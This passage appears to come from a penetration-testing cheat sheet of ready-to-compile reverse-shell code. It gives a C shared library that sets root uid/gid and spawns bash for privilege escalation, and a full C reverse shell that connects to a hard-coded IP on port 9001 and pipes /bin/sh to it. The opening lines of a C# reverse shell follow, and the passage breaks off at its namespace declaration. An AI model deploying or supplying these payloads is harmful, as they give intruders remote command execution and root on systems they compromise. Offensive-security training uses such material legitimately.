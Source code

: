 ### c reverse shell
```c
######################### Example 1 #############################
## Compile : gcc -shared -o libchill.so -fPIC libchill.c

#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int greetings(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}


######################### Example 2 #############################
## Compile : gcc shell.c -o shell

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.86.139");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

### c# reverse shell
This c-sharp reverse shell is from [PuckieStyle Blog](https://www.puckiestyle.nl/c-simple-reverse-shell/)._Note: Change `cmd.exe` to `bash` if you are using against linux environment_
```cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
```